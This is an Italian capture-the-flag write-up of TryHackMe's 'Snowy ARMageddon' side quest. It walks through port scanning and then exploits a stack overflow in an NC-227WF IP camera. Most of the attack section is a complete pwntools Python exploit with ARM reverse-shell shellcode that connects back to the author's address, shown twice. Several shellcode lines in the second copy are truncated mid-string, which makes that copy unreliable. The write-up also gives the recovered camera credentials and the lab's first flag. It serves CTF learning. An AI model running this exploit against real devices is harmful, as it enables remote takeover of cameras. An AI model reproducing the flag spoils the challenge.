# Snowy ARMageddon

**Snowy ARMageddon** è la seconda Side Quest dell'evento Aoc2023.

Il percorso per risolvere questa CTF (Capture The Flag) è stato seguito dopo la conclusione dell'evento, utilizzando guide e risorse disponibili online. Dovendo affrontare alcune sfide legate all'assembly, è stato necessario adottare approcci alternativi per superare gli ostacoli.

Iniziamo con una scansione delle porte per identificare i servizi in esecuzione sull'host bersaglio:

```sh
└─$ sudo nmap -p- -sS -A 10.10.45.176 
```


Il risultato ha rivelato le seguenti porte aperte: telnet, ssh, e la porta 50628.



I tentativi di accesso tramite telnet e ssh non hanno avuto successo. Successivamente, sono stati esplorati i servizi associati alle porte aperte.



La porta 8080 ha mostrato una pagina con un elfo decisamente arrabbiato. 



La porta 50628 era associata a una telecamera NC-227WF HD 720P. Le prove effettuate con credenziali di default non hanno avuto successo, ma è stato notato che nel percorso della pagina c'era un riferimento a /en/player/mjpeg_vga.asp. 





Dopo aver cercato vulnerabilità relative a questo modello, è stato trovato uno script Python che sfruttava un exploit noto.

Lo script conteneva un indirizzo IP codificato (indirizzo della vittima) e l'indirizzo IP del mittente. Questi sono stati adattati al fine di ottenere un reverse-shell, sostituendo gli indirizzi IP con quelli appropriati.


Url: [https://no-sec.net/arm-x-challenge-breaking-the-webs/]

Il codice assembly nell'URL è stato convertito e adattato per ottenere un reverse shell verso il proprio indirizzo IP. Questo ha coinvolto la modifica dell'indirizzo IP della vittima e l'uso di un convertitore decimale-esadecimale per ottenere la rappresentazione corretta in assembly.

Lo script Python è stato quindi eseguito, consentendo l'accesso al sistema target attraverso una reverse shell.

```python 
from pwn import *
   
HOST = '192.168.100.2'
PORT = 50628
LHOST = [192,168,100,1]
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\x59\x1f\xa0\xe3\x01\x14\xa0\xe1\xa8\x10\x81\xe2\x01\x14\xa0\xe1\xc0\x10\x81\xe2\x04\x10\x2d\xe5'   # 192.168.100.1
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote('192.168.100.2', 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```

quindi per utilizzare questa reverse-shell devo cambiare i 2 indirizzi IP ma per farlo devo prendere il codice assembly e modificarlo. per fortuna nella Url c'è anche l'assembly vero e proprio



```assemby
/* ADDR */
mov r1, #0x164
lsl r1, #8
add r1, #0xa8
lsl r1, #8
add r1, #0xc0
push {r1}       // 192.168.100.1
```

con l'aiuto di un convertitore decimale -> esadecimale (https://www.rapidtables.com/convert/number/decimal-to-hex.html) posso modificare il codice affinchè possa, la reverse-shell, chiamare il mio ip.

il mio ip è 10.14.65.216, quindi modificherò l'assembry 

```as
/* ADDR */
mov r1, #0xd8  // 216
lsl r1, #8
add r1, #0x41  // 65
lsl r1, #8
add r1, #0xe   // 14
lsl r1, #8
add r1, #0x5   // somma di 5+5
add r1, #0x5   //
27      push {r1}       // 192.168.100.1
```

notare che non è stato possibile mettere add r1, #0xa (cioè 10) in quanto il da problemi. non ho approfondito ma credo che sia dovuto al fatto che 1 e 0 vendoano usati in binario e hanno una codifica particolare. ma questa è solo una mia supposizione

quindi dissasemblo con https://shell-storm.org/online/Online-Assembler-and-Disassembler e il risultato è

```hex
"\xd8\x10\xa0\xe3\x01\x14\xa0\xe1\x41\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x01\x14\xa0\xe1\x05\x10\x81\xe2\x05\x10\x81\xe2\x04\x10\x2d\xe5"
```

incollarlo sulla riga 27 e cambioare l'ip della vittima.

ecco il risultato

```python

ora basta cambiare l'ip della vittima, salvare e lanciare lo script

from pwn import *
   
HOST = '10.10.152.78' # vitim IP
PORT = 50628
LHOST = [192,168,100,1]
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\xd8\x10\xa0\xe3\x01\x14\xa0\xe1\x41\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x01\x14\xa0\xe1\x05\x10\x81\xe2\x05\x10\x81\xe2\x04\x10\x2d\xe5'   # 10.14.65.216 my IP
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x0>
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x2>
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa>
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x2>
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()

```

```sh
python3 reverse-shell.py
```

Dopo l'esecuzione dello script, è stato ottenuto l'accesso al sistema.



Una volta all'interno del sistema, sono state effettuate ulteriori esplorazioni. La ricerca di credenziali ha portato al recupero di una password dal file nascosto .emux.



password=Y3tiStarCur!ous

lo stesso file indica un altro file /var/etc/umconfig.txt

provo a stamparlo per vedere cosa c'è dentro. 



fantastico ora ho username e password
username=admin
password=Y3tiStarCur!ouspassword=admin

La password ottenuta è stata successivamente utilizzata per accedere alla pagina di login sulla porta 50628.


Accedendo con le nuove credenziali, è stata trovata la prima flag:

$${\color{red}What \space is \space the \space content \space of \space the \space first \space flag?
} \space {\color{green}THM\\{YETI\\_ON\\_SCREEN\\_ELUSIVE\\_CAMERA\\_STAR\\}}$$


Per la prossima flag ho bisogno di effettuare una nuova enumerazione, quindi partendo dalla porta 8080 provo a fare una scansione con dirb

